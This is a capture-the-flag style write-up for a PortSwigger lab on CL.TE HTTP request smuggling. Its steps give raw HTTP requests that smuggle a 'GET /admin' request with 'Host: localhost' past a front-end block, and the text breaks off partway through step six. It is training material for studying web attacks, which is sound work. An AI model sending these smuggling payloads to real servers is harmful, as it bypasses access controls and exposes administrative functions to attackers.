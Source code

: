 #  Exploiting HTTP - request smuggling to bypass front-end security controls, CL.TE vulnerability

## 📌 Lab Details
- **Title**: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
- **Difficulty**: Practitioner
- **Category**: HTTP Request Smuggling
- **Lab URL**: https://portswigger.net/academy/labs/launch/d87789adec7383329012f5a094910fc21a7bf4958acf05f883ac78ddd12c6a37?referrer=%2fweb-security%2frequest-smuggling%2fexploiting%2flab-bypass-front-end-controls-cl-te

## 🔍 Summary
This lab exploited a **CL.TE vulnerability**, where the **front-end server uses** `Content-Length` but the **back-end uses** `Transfer-Encoding`. By crafting a request with `Transfer-Encoding: chunked` and ending it with `0\r\n\r\n`, we smuggled a hidden `GET /admin` request (with `Host: localhost`) directly to the back-end, bypassing the front-end’s `/admin` block.

## 🛠 Steps to Solve
1. Try to visit `/admin` and observe that the request is blocked.
2. Using the **Burp Repeater**, issue the following request twice:
   ```sh
   POST / HTTP/1.1
   Host: YOUR-LAB-ID.web-security-academy.net
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 37
   Transfer-Encoding: chunked

   0

   GET /admin HTTP/1.1
   X-Ignore: X
   ```
3. Observe that the merged request to `/admin` was rejected due to not using the header `Host: localhost`.
4. Issue the following request twice:
   ```sh
   POST / HTTP/1.1
   Host: YOUR-LAB-ID.web-security-academy.net
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 54
   Transfer-Encoding: chunked

   0

   GET /admin HTTP/1.1
   Host: localhost
   X-Ignore: X
   ```
5. Observe that the request was blocked due to the second request's Host header conflicting with the smuggled Host header in the first request.
6. Issue the following request twice so the second request's headers are appended to the smuggled request body instead:
   ```sh
   POST / HTTP/1.1
   Host: YOUR-LAB-ID.web-security-academy.net
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 116
   Transfer-Encoding: chunked

   0
   ```